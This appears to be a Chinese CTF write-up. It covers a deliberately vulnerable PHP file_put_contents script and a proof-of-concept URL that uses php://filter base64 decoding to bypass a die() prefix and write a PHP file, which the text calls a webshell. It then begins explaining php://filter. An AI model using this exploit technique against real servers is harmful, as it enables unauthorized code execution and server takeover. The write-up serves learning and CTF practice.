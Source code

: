 ## 背景
屈总今天给了一个CTF题，看起来很简单，但是细看要是不了解file_put_contents利用技巧，这个题也解不出来，先看代码
```php
 <?php
# upload www-data rwx
if (isset($_GET['path']) && isset($_GET['data'])) {
    $data = "<?php\ndie('no php');\n?>\n";
    $content = $data.base64_decode($_GET['data']);
    echo $content;

    file_put_contents($_GET['path'], $content);
    echo 'OK';
} else{
    highlight_file(__FILE__);
}
?>

```
poc如下
```shell
http://127.0.0.1/2.php?path=php://filter/write=convert.base64-decode/resource=shell.php&data=aaaaUEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr
```
效果如下
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_42_bpmzqTGg.png)
通过这个题，通过使用`php://filter`来构造相关payload以达到写入webshell，来达到控制服务器的目的，但其危害并不只如此，还可以配合使用文件包含，文件读取，反序列化，XXE等组合攻击。
借此机会来学习学习，探索`php://filter`的相关姿势
## php://filter 协议利用
### 介绍
php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器
php://filter 目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定。详细使用这些参数可以参考具体范例
